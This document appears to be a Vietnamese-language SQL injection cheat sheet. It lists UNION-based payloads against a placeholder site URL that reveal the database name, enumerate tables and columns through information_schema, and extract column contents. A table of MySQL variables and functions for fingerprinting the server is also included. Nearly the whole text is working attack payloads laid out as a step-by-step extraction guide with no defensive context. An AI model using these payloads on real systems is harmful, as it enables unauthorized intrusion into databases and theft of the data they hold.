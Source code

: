 ## check database khi biết cột lỗi;
- thay cột lỗi bằng database
`http://fakesite.com/report.php?id=-23 union select 1,2,database(),4,5-- -`

|Variable.Function|ahihi|Output|
|----------|-------------|--------------|
|@@hostname	|:|	Tên máy chủ hiện tại|
|@@tmpdir|	:	|Tept Directory|
|@@datadir|	:	|Thư mục Dữ liệu|
|@@version|	:	|Phiên bản của DB|
|@@basedir|	:	|Thư mục cơ sở|
|user()|	:	|Người dùng hiện tại|
|database()|	:	|Cơ sở dữ liệu hiện tại|
|version()|	:	|	Phiên bản|
|schema()|	:	|	Cơ sở dữ liệu hiện tại|
|UUID()|	:	|	Khóa UUID của Hệ thống|
|current_user()|	:	|Current User|
|current_user|	:	|Current User|
|system_user()|	:	|Current Sustem user|
|session_user()|	:	|Session user|
|@@GLOBAL.have_symlink|	:	|Check if Symlink Enabled or Disabled|
|@@GLOBAL.have_ssl|	:	|Check if it have ssl or not|



- lấy ra tên bảng 
```
http://fakesite.com/report.php?id=-23 union select 1,2,table_name,4,5 from information_schema.tables where table_schema="tên database"-- -

hoặc
,unhex(hex(group_concat(table_name))),2 from information_schema.tables where table_schema=database()-- -
```

-lấy ra tên cột:
```
http://fakesite.com/report.php?id=-23 union Select 1,2,column_name,4,5 from information_schema.columns where table_schema='tên database" and table_name='tablenamehere'-- -
```
hoặc thay đoạn lấy table =column

- trích dữ liệu:

```
http://fakesite.com/report.php?id=-23 union Select 1,2,concat(column1,column2),4,5 from tên bảng-- -
```
